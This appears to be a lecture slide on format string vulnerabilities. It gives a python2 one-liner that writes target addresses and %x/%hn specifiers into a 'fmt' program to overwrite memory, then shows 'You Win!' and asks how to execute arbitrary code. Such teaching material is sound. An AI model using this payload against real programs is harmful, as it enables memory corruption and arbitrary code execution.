

Format String Example
./fmt $(python2 -c 'print "\x34\xa0\x04\x08\x36\xa0\x04\x08%4911x%7$hn%65536x%8$hn"')

...

You Win!
How to execute
arbitrary code?